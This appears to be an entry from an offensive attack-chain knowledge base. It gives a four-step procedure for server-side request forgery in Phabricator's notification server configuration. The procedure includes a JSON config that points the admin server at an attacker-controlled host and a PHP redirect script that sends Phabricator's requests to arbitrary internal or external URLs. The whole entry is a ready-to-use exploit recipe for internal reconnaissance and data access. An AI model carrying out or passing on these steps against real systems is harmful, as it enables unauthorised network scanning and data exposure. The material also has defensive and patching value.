

---
tags:
  - ssrf
  - phabricator
  - notification-server
  - admin-config
  - redirect
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
  - '[[Discovery]]'
verified: false
platforms:
  - Web
  - PHP
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Authenticate-as-Phabricator-Administrator]]'
  - '[[procedures/Navigate-to-Notification-Servers-Configuration]]'
  - '[[procedures/Modify-Configuration-with-Malicious-Server-Details]]'
  - '[[procedures/Set-Up-Malicious-Server-for-SSRF-Redirect]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Network Service Scanning]]'
updated_at: '2025-12-14T04:08:46.195Z'
description: >-
  An authenticated administrator exploits SSRF in Phabricator's notification
  servers configuration to redirect requests to internal or external resources,
  enabling reconnaissance and potential data access.
skill_level: intermediate
impact_level: high
id: 82f55f93-152f-40af-b0d9-6bfe3d2dbcca
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Discovery]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Network Service Scanning]]'
---
# SSRF Exploitation via Phabricator Notification Servers Configuration

Multi-stage attack chain demonstrating SSRF exploitation in Phabricator's notifications.server configuration, allowing an authenticated administrator to redirect server requests to malicious endpoints for internal reconnaissance or external data exfiltration.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses built-in Phabricator interface and custom PHP server)

### Target Environment

- Phabricator installation (PHP-based)
- Administrative access
- Ports 22280 (client) and 22281 (admin) open for notification services
- Web platform with HTTP/HTTPS support

### Initial Access Requirements

- Valid administrator credentials for Phabricator
- Direct network access to the Phabricator instance
- Ability to host a malicious server externally or internally

## Detailed Attack Procedures

### Step 1: Authenticate as Administrator
procedure: [[procedures/Authenticate-as-Phabricator-Administrator]]

**Objective**: Gain administrative access to the Phabricator configuration interface to enable modification of sensitive settings.

**Instructions**: Log in to the Phabricator web interface using administrator credentials. Ensure the session is active and privileges are verified.

**Expected Output**: Successful login with access to admin-only sections like Config > Settings.

**Success Indicators**:
- Dashboard shows administrator role
- Configuration menu is accessible

### Step 2: Navigate to Notification Servers Configuration
procedure: [[procedures/Navigate-to-Notification-Servers-Configuration]]

**Objective**: Locate the notifications.server configuration to prepare for SSRF exploitation.

**Instructions**: From the admin dashboard, navigate to Config > Settings > notification.servers to view and edit the server blocks.

**Expected Output**: Interface displays existing JSON configuration for client and admin notification servers.

**Success Indicators**:
- Configuration page loads without errors
- JSON editor for Database Value is visible

### Step 3: Modify Configuration with Malicious Server Details
procedure: [[procedures/Modify-Configuration-with-Malicious-Server-Details]]

**Objective**: Alter the admin notification server details to point to a controlled malicious endpoint, triggering SSRF on Phabricator's next connection attempt.

**Instructions**: Copy the existing 'Simple Example' values and replace the 'type: admin' block in the Database Value with malicious details using [[commands/configure-phabricator-notification-servers-json]]:

```json
[
  {
    "type": "client",
    "host": "phabricator.mycompany.com",
    "port": 22280,
    "protocol": "https"
  },
  {
    "type": "admin",
    "host": "X.X.X.X",
    "port": 22281,
    "protocol": "http"
  }
]
```

Save the changes to apply the configuration.

**Expected Output**: Configuration saves successfully; Phabricator will connect to the new admin server on status checks.

**Success Indicators**:
- No validation errors on save
- Incoming connection from Phabricator to malicious server at /status

### Step 4: Set Up Malicious Server for SSRF Redirect
procedure: [[procedures/Set-Up-Malicious-Server-for-SSRF-Redirect]]

**Objective**: Host a server that receives Phabricator's request and redirects it to internal resources, exploiting SSRF for scanning or data access.

**Instructions**: Deploy a simple HTTP server on the specified host and port (e.g., X.X.X.X:22281). Place [[commands/php-redirect-script-for-ssrf]] as index.php in the /status path:

```php
<?php
header("Location: http://anywhere.loc/bad_intentions");
?>
```

Start the server to listen for Phabricator's GET request to /status, which will trigger the redirect.

**Expected Output**: Phabricator follows the redirect, sending a request to the target internal/external URL.

**Success Indicators**:
- Malicious server logs incoming GET /status from Phabricator
- Redirect causes access to internal ports or resources (e.g., service versions retrieved)

## Attack Chain Summary

### Key Achievements

1. Authenticated access to admin configuration
2. SSRF redirection to arbitrary internal/external hosts
3. Potential for port scanning and service enumeration
4. Limited to admins but bypasses some network restrictions

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Network Service Scanning]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Discovery]]

---
*Last updated: 2023-10-01T00:00:00Z*
